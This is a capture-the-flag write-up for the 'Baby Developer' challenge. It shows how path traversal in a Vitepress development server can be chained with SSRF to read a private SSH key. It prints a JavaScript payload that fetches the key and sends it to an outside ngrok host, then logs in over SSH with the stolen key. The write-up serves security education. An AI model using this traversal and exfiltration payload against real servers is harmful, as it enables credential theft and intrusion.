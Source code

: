 ```yaml
---
description: >-
  Directory traversal in insecure Vitepress development server leads to
  information disclosure through SSRF
---
```


# Baby Developer

## Description

I made a mobile\(apple watch miniminimini series 1337\) viewer on my personal server..

* `http://baby-developer.chal.acsc.asia:8888/`
* `ssh baby-developer.chal.acsc.asia -p2222`

{% file src="../../.gitbook/assets/baby-developer.tar.gz\_f5f00919ccc94f797a24d1a823a61773.gz" caption="Challenge Files" %}

## Solution

* There is a `genflag` server which you are supposed to SSRF
* However, the user agent is checked so you cant do it directly from `mobile-viewer`
* The pages are rendered as screenshots

```python
@app.route('/flag')
def hello_world():
    if request.remote_addr == dev and 'iPhone' not in request.headers.get('User-Agent'):
        fp = open('/flag', 'r')
        flag = fp.read()
        return flag
    else:
        return "Nope.."
```

From `mobile-viewer`, we need to request `http://genflag/flag` from `website`. This can be done from `/home/stypr/readflag` on `website`.

```text
# Challenge: get flag!
RUN touch /home/stypr/.hushlogin && \
    echo '#include <stdio.h>\r\n#include <stdlib.h>\r\nint main(){FILE *fp;char flag[1035];fp = popen("/usr/bin/curl -s http://genflag/flag", "r");if (fp == NULL) {printf("Error found. Please contact administrator.");exit(1);}while (fgets(flag, sizeof(flag), fp) != NULL) {printf("%s", flag);}pclose(fp);return 0;}' > /home/stypr/readflag.c && \
    gcc -o /home/stypr/readflag /home/stypr/readflag.c && \
    chmod +x /home/stypr/readflag && rm -rf /home/stypr/readflag.c
```

The `website` server runs `yarn dev`, which runs `vitepress dev src`. Refer to the website source: [https://github.com/stypr/harold.kim/blob/main/package.json](https://github.com/stypr/harold.kim/blob/main/package.json)

Vitepress is run on dev mode. I found that this enables CORS, allowing us to perform a CSRF to exfiltrate data. Furthermore, I found that there was a path traversal vulnerability, allowing us to get the SSH key: `http://website/../../../../../home/stypr/.ssh/id_rsa`

From `mobile-viewer`, we can make a request to our attacker site, which contains:

```markup
<script>
    fetch("http://website/../../../../../home/stypr/.ssh/id_rsa")
    .then(resp => resp.text())
    .then(data => fetch('http://0db7-115-66-195-39.ngrok.io/?' + btoa(data)))
</script>
```

Get the private key and SSH into the server to get the flag:

```text
➜  babydev ssh stypr@baby-developer.chal.acsc.asia -p2222 -i id_rsa 
ACSC{weird_bugs_pwned_my_system_too_late_to_get_my_CVE}
```

